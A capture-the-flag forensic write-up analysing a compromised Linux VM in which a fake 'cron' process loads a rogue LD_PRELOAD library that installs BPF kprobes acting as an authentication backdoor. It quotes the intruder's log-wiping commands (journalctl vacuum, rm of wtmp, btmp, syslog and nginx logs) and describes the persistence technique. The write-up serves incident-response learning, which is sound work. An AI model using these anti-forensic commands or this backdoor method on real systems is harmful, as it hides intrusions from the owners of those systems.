





# Egg Hunt


```
Egg Hunt
After moving laterally, PROTECTIVE PENGUIN compromised a number of additional systems and gained persistence.
We have identified another host in the DMZ that we believe was backdoored by the adversary and is used to regain access.

Please download a virtual machine image of that host and identify the backdoor.
(https://adversaryquest-static.s3.amazonaws.com/OvakJof8olphumm4/egghunt.tar.xz)
Validate your findings in our test environment on egghunt.challenges.adversary.zone.
```

Contents
---

1. [Task intro](#a_part1)
2. [Gathering relevant artifacts](#a_part2)
3. [Analyzing the BPF implant from afar](#a_part3)
4. [Analyzing the BPF implant in depth](#a_part4)
5. [Using the backdoor](#a_part5)

---

## 1.<span id="a_part1"/> Task intro

After unpacking `egghunt.tar.xz` we get the following files which we can inspect immediately:

```bash
$ ls -sh run.sh art_ctf_egghunt_local.qcow2 
2.9G art_ctf_egghunt_local.qcow2  4.0K run.sh

$ cat run.sh 
#!/bin/sh

IMAGE=art_ctf_egghunt_local.qcow2
SNAPSHOT=compromised

stty intr ^]

echo "Restoring snapshot $SNAPSHOT ($IMAGE)"
echo "Press Return..."

qemu-system-x86_64 -enable-kvm -machine pc-i440fx-4.2 -nodefaults -nographic \
	-chardev stdio,id=c1 -monitor tcp:127.0.0.1:55555,server,nowait \
	--device isa-serial,chardev=c1 -m size=512M,maxmem=512M \
	-netdev user,id=n1,net=192.168.76.0/24,dhcpstart=192.168.76.9,hostfwd=tcp::4422-:4422,hostfwd=udp::1337-:1337 \
	-device virtio-net,netdev=n1 -object rng-random,filename=/dev/urandom,id=rng0 \
	-device virtio-rng-pci,rng=rng0 -boot order=c -hda $IMAGE -loadvm $SNAPSHOT

stty intr ^C

$ qemu-img info ./art_ctf_egghunt_local.qcow2 
image: ./art_ctf_egghunt_local.qcow2
file format: qcow2
virtual size: 10 GiB (10737418240 bytes)
disk size: 2.86 GiB
cluster_size: 65536
Snapshot list:
ID        TAG                     VM SIZE                DATE       VM CLOCK
1         compromised             497 MiB 2021-01-14 14:15:30   00:01:55.747
Format specific information:
    compat: 1.1
    compression type: zlib
    lazy refcounts: false
    refcount bits: 16
    corrupt: false

```

So indeed we have a snapshot in the qemu image and we can also notice that there are two ports forwarded:
 - TCP 4422
 - UDP 1337
 
 Let's boot the machine and see what we can gather!
 
## 2.<span id="a_part2"/> Gathering relevant artifacts

Assuming the attacker had control before the snapshot was taken we should be able to find some artifacts of their mischief.

``` bash
root@egghunt:~# cat ~/.bash_history 
journalctl --rotate
journalctl --vacuum-time=1s
rm /var/log/lastlog* /var/log/syslog* /var/log/wtmp* /var/log/btmp
rm /var/log/nginx/*
rm /root/.lesshst
rm /root/.bash_history
poweroff 
```
It seems we cannot count on the bash history, we will have to do this another way. Here are a couple of ideas:
 - See which files were last modified
 - See which files were deleted and if they can still be retrieved
 - Check for any suspicious processes/libraries
 - Check for any suspicious kernel modules/OS-level modifications
 
 
 ### Files
 In terms of recently modified files nothing really seems to stand out:
 ```
 1610621812.8356732710 2021-01-14 12:56:52.8356732710 ./etc/passwd-
1610621812.8436732710 2021-01-14 12:56:52.8436732710 ./etc/passwd
1610621812.8556732710 2021-01-14 12:56:52.8556732710 ./etc/shadow-
1610621812.8756732710 2021-01-14 12:56:52.8756732710 ./etc/group-
1610621812.8876732710 2021-01-14 12:56:52.8876732710 ./etc/group
1610621812.8956732710 2021-01-14 12:56:52.8956732710 ./etc/gshadow-
1610621812.9076732710 2021-01-14 12:56:52.9076732710 ./etc/gshadow
1610621812.9156732710 2021-01-14 12:56:52.9156732710 ./etc/subuid-
1610621812.9236732710 2021-01-14 12:56:52.9236732710 ./etc/subuid
1610621812.9356732710 2021-01-14 12:56:52.9356732710 ./etc/subgid-
1610621812.9396732710 2021-01-14 12:56:52.9396732710 ./etc/subgid
1610622152.4475270450 2021-01-14 13:02:32.4475270450 ./etc/shadow
1610622185.3071611180 2021-01-14 13:03:05.3071611180 ./etc/ssh/sshd_config
1610622187.2271423330 2021-01-14 13:03:07.2271423330 ./root/.viminfo
1610626435.3840000000 2021-01-14 14:13:55.3840000000 ./var/lib/systemd/random-seed
1610626435.5760000000 2021-01-14 14:13:55.5760000000 ./var/log/btmp
1610626436.0360000000 2021-01-14 14:13:56.0360000000 ./boot/grub/grubenv
1610626436.5600000000 2021-01-14 14:13:56.5600000000 ./var/log/dmesg.4.gz
1610626436.5640000000 2021-01-14 14:13:56.5640000000 ./var/log/dmesg.2.gz
1610626436.5640000000 2021-01-14 14:13:56.5640000000 ./var/log/dmesg.3.gz
1610626436.5680000000 2021-01-14 14:13:56.5680000000 ./var/log/dmesg.1.gz
1610626436.5800000000 2021-01-14 14:13:56.5800000000 ./var/log/dmesg.0
1610626436.5880000000 2021-01-14 14:13:56.5880000000 ./var/log/dmesg
1610626455.9680000000 2021-01-14 14:14:15.9680000000 ./var/lib/update-notifier/fsck-at-reboot
1610626456.0080000000 2021-01-14 14:14:16.0080000000 ./var/log/lastlog
1610626456.0080000000 2021-01-14 14:14:16.0080000000 ./var/log/wtmp
1610626456.1280000000 2021-01-14 14:14:16.1280000000 ./root/.bash_history
1610626462.8200000000 2021-01-14 14:14:22.8200000000 ./var/lib/dhcp/dhclient.leases
1610626500.7849292250 2021-01-14 14:15:00.7849292250 ./var/lib/systemd/timesync/clock
1610626514.8175588250 2021-01-14 14:15:14.8175588250 ./var/lib/systemd/timers/stamp-apt-daily-upgrade.timer
1610626514.8615600890 2021-01-14 14:15:14.8615600890 ./var/lib/apt/daily_lock
1610626514.8815606650 2021-01-14 14:15:14.8815606650 ./var/backups/apt.extended_states.2.gz
1610626514.8855607790 2021-01-14 14:15:14.8855607790 ./var/backups/apt.extended_states.0
1610626514.8855607790 2021-01-14 14:15:14.8855607790 ./var/backups/apt.extended_states.1.gz
1610626516.9336150940 2021-01-14 14:15:16.9336150940 ./var/cache/apt/srcpkgcache.bin
1610626517.0296174820 2021-01-14 14:15:17.0296174820 ./var/cache/apt/pkgcache.bin
1610626517.3736256380 2021-01-14 14:15:17.3736256380 ./var/log/kern.log
1610626517.3856259220 2021-01-14 14:15:17.3856259220 ./var/log/auth.log
1610626518.0416414210 2021-01-14 14:15:18.0416414210 ./var/log/unattended-upgrades/unattended-upgrades.log
1610626518.1616440870 2021-01-14 14:15:18.1616440870 ./var/lib/apt/periodic/unattended-upgrades-stamp
1610626518.1696442650 2021-01-14 14:15:18.1696442650 ./var/lib/apt/periodic/upgrade-stamp
1610626518.2016449750 2021-01-14 14:15:18.2016449750 ./var/log/syslog
1610626518.6856557350 2021-01-14 14:15:18.6856557350 ./var/log/journal/34dd94c2584a42e7bdddcde7f66b915f/system.journal
```
 
 `./root/.viminfo` implies that password-based login was enabled for root, but that's pretty much it:
 
 ```
 root@egghunt:~# cat .viminfo 
# This viminfo file was generated by Vim 8.2.
# You may edit it if you're careful!

# Viminfo version
|1,4

# Value of 'encoding' when this file was written
*encoding=utf-8


# hlsearch on (H) or off (h):
~h
# Last Search Pattern:
~MSle0~/PermitRootLogin

# Command Line History (newest to oldest):
:x
|2,0,1610622187,,"x"
:w
|2,0,1610622185,,"w"
:q!
|2,0,1609945354,,"q!"

# Search String History (newest to oldest):
?/PermitRootLogin
|2,1,1610622117,47,"PermitRootLogin"
?/P
|2,1,1610622105,47,"P"

# Expression History (newest to oldest):

# Input Line History (newest to oldest):

# Debug Line History (newest to oldest):

# Registers:
""1	LINE	0
	PermitRootLogin yes
|3,1,1,1,1,0,1610622183,"PermitRootLogin yes"
"-	CHAR	0
	#
|3,0,36,0,1,0,1610622118,"#"
```
 
In terms of deleted files, I didn't manage to find anything of value; it seems this machine was probably used for another CTF task as it had a deleted "/home/user" directory and some older history files suggested the presence of "/home/user/flag.txt" :
```
b0VIM 8.2
root
cs-ctf
/home/user/flag.txt
utf-8
U3210
#"! 
CS{DUMMY_FLAG}
CS{DUMMY_FLAG}
```

### Processes

```
root@egghunt:~# ps fauxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           2  0.0  0.0      0     0 ?        S    16:52   0:00 [kthreadd]
root           3  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [rcu_gp]
root           4  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [rcu_par_gp]
root           6  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [kworker/0:0H-kblockd]
root           8  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [mm_percpu_wq]
root           9  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [ksoftirqd/0]
root          10  0.0  0.0      0     0 ?        I    16:52   0:00  \_ [rcu_sched]
root          11  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [migration/0]
root          12  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [idle_inject/0]
root          14  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [cpuhp/0]
root          15  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [kdevtmpfs]
root          16  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [netns]
root          17  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [rcu_tasks_kthre]
root          18  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [rcu_tasks_rude_]
root          19  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [rcu_tasks_trace]
root          20  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [kauditd]
root          21  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [khungtaskd]
root          22  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [oom_reaper]
root          23  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [writeback]
root          24  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [kcompactd0]
root          25  0.0  0.0      0     0 ?        SN   16:52   0:00  \_ [ksmd]
root          71  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [kintegrityd]
root          72  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [kblockd]
root          73  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [blkcg_punt_bio]
root          74  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [tpm_dev_wq]
root          75  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [ata_sff]
root          76  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [md]
root          77  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [edac-poller]
root          78  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [devfreq_wq]
root          79  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [watchdogd]
root          81  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [pm_wq]
root          84  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [kswapd0]
root          85  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [ecryptfs-kthrea]
root          87  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [kthrotld]
root          88  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [acpi_thermal_pm]
root          89  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [scsi_eh_0]
root          90  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [scsi_tmf_0]
root          91  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [scsi_eh_1]
root          92  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [scsi_tmf_1]
root          93  0.0  0.0      0     0 ?        I    16:52   0:00  \_ [kworker/u2:2-events_power_efficient]
root          94  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [vfio-irqfd-clea]
root          95  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [ipv6_addrconf]
root         105  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [kstrp]
root         108  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [zswap-shrink]
root         109  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [kworker/u3:0]
root         114  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [charger_manager]
root         115  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [kworker/0:1H-kblockd]
root         221  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [jbd2/sda2-8]
root         222  0.0  0.0      0     0 ?        I<   16:52   0:00  \_ [ext4-rsv-conver]
root         253  0.0  0.0      0     0 ?        S    16:52   0:00  \_ [hwrng]
root         304  0.0  0.0      0     0 ?        I    16:52   0:00  \_ [kworker/0:3-events]
root         357  0.0  0.0      0     0 ?        I    16:52   0:00  \_ [kworker/0:5-events]
root        1095  0.0  0.0      0     0 ?        I    16:57   0:00  \_ [kworker/u2:0-events_unbound]
root        1112  0.0  0.0      0     0 ?        I    17:02   0:00  \_ [kworker/u2:1-events_power_efficient]
root        1116  0.0  0.0      0     0 ?        I    17:07   0:00  \_ [kworker/0:0]
root           1  0.2  2.3 102704 11388 ?        Ss   16:52   0:02 /sbin/init
root         277  0.0  2.5  36236 12288 ?        S<s  16:52   0:00 /lib/systemd/systemd-journald
root         318  0.0  1.0  21828  5160 ?        Ss   16:52   0:00 /lib/systemd/systemd-udevd
systemd+     327  0.0  1.3  91384  6688 ?        Ssl  16:52   0:00 /lib/systemd/systemd-timesyncd
systemd+     339  0.0  1.6  19816  7816 ?        Ss   16:52   0:00 /lib/systemd/systemd-networkd
message+     341  0.0  0.9   8256  4692 ?        Ss   16:52   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
root         351  0.0  3.6  29732 17580 ?        Ss   16:52   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
syslog       352  0.0  0.9 221272  4704 ?        Ssl  16:52   0:00 /usr/sbin/rsyslogd -n -iNONE
root         353  0.0  1.6  18216  7976 ?        Ss   16:52   0:00 /lib/systemd/systemd-logind
systemd+     365  0.0  2.6  25096 12772 ?        Ss   16:52   0:00 /lib/systemd/systemd-resolved
daemon       374  0.0  0.4   3776  2152 ?        Ss   16:52   0:00 /usr/sbin/atd -f
root         379  0.0  1.5  13072  7388 ?        Ss   16:52   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root         381  0.0  0.3   5824  1784 tty1     Ss+  16:52   0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
root         383  0.0  0.8   8932  4188 ttyS0    Ss   16:52   0:00 /bin/login -p --
root         577  0.0  1.0   8268  5144 ttyS0    S    16:52   0:00  \_ -bash
root        1117  0.0  0.6   9904  3372 ttyS0    R+   17:07   0:00      \_ ps fauxww
root         570  0.0  1.9  19508  9700 ?        Ss   16:52   0:00 /lib/systemd/systemd --user
root         571  0.0  0.6 104036  3036 ?        S    16:52   0:00  \_ (sd-pam)
root         587  0.0  1.1  99880  5716 ?        Ssl  16:52   0:00 dhclient -v eth0
root         974  0.0  0.5   7320  2500 ?        Ss   16:53   0:00 cron
```
There really seems to not be anything suspicious, the only one that raised an eyebrow for me is PID 974 because:
- cron should have the full path in the cmdline shown
- it seems to have been started later (16:53) than the other system processes (16:52)

Since it might be just a false-positive let's remove all doubts: if the process has been tampered with, we should see so under `/proc`:
```
root@egghunt:/proc/974# strings /proc/974/cmdline
cron
root@egghunt:/proc/974# strings /proc/974/comm
cron

root@egghunt:/proc/974# strings /proc/974/environ 
LD_PRELOAD=/dev/shm/x86_64-linux-gnu/libc.so.7
SHELL=/bin/bash
PWD=/root
LOGNAME=root
XDG_SESSION_TYPE=tty
MOTD_SHOWN=pam
HOME=/root
LANG=en_US.UTF-8
SSH_CONNECTION=192.168.76.2 46100 192.168.76.9 4422
XDG_SESSION_CLASS=user
USER=root
SHLVL=0
XDG_SESSION_ID=6
XDG_RUNTIME_DIR=/run/user/0
SSH_CLIENT=192.168.76.2 46100 4422
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/0/bus
_=/usr/sbin/cron

root@egghunt:/proc/974# ls -al fd
total 0
dr-x------ 2 root root  0 Jan 25 16:55 .
dr-xr-xr-x 9 root root  0 Jan 14 12:15 ..
lr-x------ 1 root root 64 Jan 25 16:55 0 -> /dev/null
l-wx------ 1 root root 64 Jan 25 16:55 1 -> /dev/null
lrwx------ 1 root root 64 Jan 25 16:55 10 -> 'anon_inode:[perf_event]'
lrwx------ 1 root root 64 Jan 25 16:55 11 -> 'anon_inode:[perf_event]'
lrwx------ 1 root root 64 Jan 25 16:55 12 -> /run/crond.pid
lrwx------ 1 root root 64 Jan 25 16:55 13 -> 'socket:[24485]'
l-wx------ 1 root root 64 Jan 25 16:55 2 -> /dev/null
lr-x------ 1 root root 64 Jan 25 16:55 3 -> anon_inode:btf
lrwx------ 1 root root 64 Jan 25 16:55 4 -> anon_inode:bpf-map
lrwx------ 1 root root 64 Jan 25 16:55 5 -> anon_inode:bpf-map
lrwx------ 1 root root 64 Jan 25 16:55 6 -> anon_inode:bpf-prog
lrwx------ 1 root root 64 Jan 25 16:55 7 -> anon_inode:bpf-prog
lrwx------ 1 root root 64 Jan 25 16:55 8 -> anon_inode:bpf-prog
lrwx------ 1 root root 64 Jan 25 16:55 9 -> 'anon_inode:[perf_event]'


```
Some key aspects to be observed:
 - cmdline tells us it was manually started (not having a full path like the others)
 - `LD_PRELOAD=/dev/shm/x86_64-linux-gnu/libc.so.7` this is a dead-giveaway that something bad is clearly happening
 - `SSH_CONNECTION=192.168.76.2 46100 192.168.76.9 4422` indicates that the cron process was started by an attacker connected through SSH which is another giveaway that we're on the right track
 - the bpf inodes are highly-suspicious
 
 The carved logs also suggest how the attacker entered and when:
```
Jan 14 12:15:16 egghunt sshd[880]: Accepted publickey for root from 192.168.76.2 port 46100 ssh2: ED25519 SHA256:T7+KFqQw82knvSs9j0ulHej5h5LMmE/rW4lXZ5mG4c8
Jan 14 12:15:16 egghunt sshd[880]: pam_unix(sshd:session): session opened for user root by (uid=0)
Jan 14 12:15:16 egghunt systemd-logind[353]: New session 6 of user root.
Jan 14 12:15:17 egghunt sshd[880]: Received disconnect from 192.168.76.2 port 46100:11: disconnected by user
Jan 14 12:15:17 egghunt sshd[880]: Disconnected from user root 192.168.76.2 port 46100
```
 
 
 
 Now, to be honest I did not find `libc.so.7` when I solved the challenge, only now, when doing the writeup so I will only go over it briefly.
 
 #### Libraries: libc.so.7
 First of all, the name `libc.so.7` is different from the classical `libc.so.6`. Opening it up in IDA we can find out what purpose it serves:
 
 - when loading the library, a constructor is called:
 
 
 
 - the core functionality loads the bpf program and all the components:
 
  


But why would a bpf program which is usually used for inspection/introspection be useful as a backdoor? A hint to answer this lies in the kernel logs:

```
root@egghunt:/proc/974# dmesg | tail -1
[   86.289920] cron[971] is installing a program with bpf_probe_write_user helper that may corrupt user memory!
```

So not only does it inspect but it also seems to modify the memory in userspace after it gets loaded. Right, let's find a decent way to analyze it!


## 3.<span id="a_part3"/> Analyzing the BPF implant from afar

The tool we will use to dig into its functionality is `bpftool`:

```
root@egghunt:/# bpftool 
Usage: /usr/lib/linux-tools/5.8.0-33-generic/bpftool [OPTIONS] OBJECT { COMMAND | help }
       /usr/lib/linux-tools/5.8.0-33-generic/bpftool batch file FILE
       /usr/lib/linux-tools/5.8.0-33-generic/bpftool version

       OBJECT := { prog | map | link | cgroup | perf | net | feature | btf | gen | struct_ops | iter }
       OPTIONS := { {-j|--json} [{-p|--pretty}] | {-f|--bpffs} |
	            {-m|--mapcompat} | {-n|--nomount} }
```
 
 Looks like the interesting things we can operate on are: `prog`, `map`, `perf`, `btf`. Let's check out the output for each:
 
 ```
 root@egghunt:/# bpftool prog
[...]
16: tracepoint  name kprobe_netif_re  tag e0d014d973f44213  gpl
	loaded_at 2021-01-25T16:53:35+0000  uid 0
	xlated 2344B  jited 1544B  memlock 4096B  map_ids 4
	btf_id 5
17: kprobe  name getspnam_r_entr  tag acab388c8f8ef0f9  gpl
	loaded_at 2021-01-25T16:53:35+0000  uid 0
	xlated 336B  jited 223B  memlock 4096B  map_ids 3
	btf_id 5
18: kprobe  name getspnam_r_exit  tag ceeabb4ac5b9ed45  gpl
	loaded_at 2021-01-25T16:53:35+0000  uid 0
	xlated 328B  jited 209B  memlock 4096B  map_ids 3,4
	btf_id 5
```
Looks like there is one tracepoint in `kprobe_netif_re` (truncated from what is unknown at this point). and two kprobes in `getspnam_r_entr(y)` and `getspnam_r_exit`. They use maps 3 and 4:

```
root@egghunt:/# bpftool map 
3: hash  name args  flags 0x0
	key 8B  value 8B  max_entries 10  memlock 4096B
	btf_id 5
4: array  name implant_.bss  flags 0x400
	key 4B  value 36B  max_entries 1  memlock 8192B
	btf_id 5

root@egghunt:/# bpftool map dump id 3 
[]
root@egghunt:/# bpftool map dump id 4
[{
        "value": {
            ".bss": [{
                    "backdoor": {
                        "enabled": false,
                        "hash": ""
                    }
                }
            ]
        }
    }
]

```
We're getting closer! It seems that the backdoor has a toggle flag and a hash. Now this makes sense in the context that the attacker enabled password-based authentication, but there is no backdoor hash currently. Maybe we can activate it somehow? Let's continue with the other tools:

```
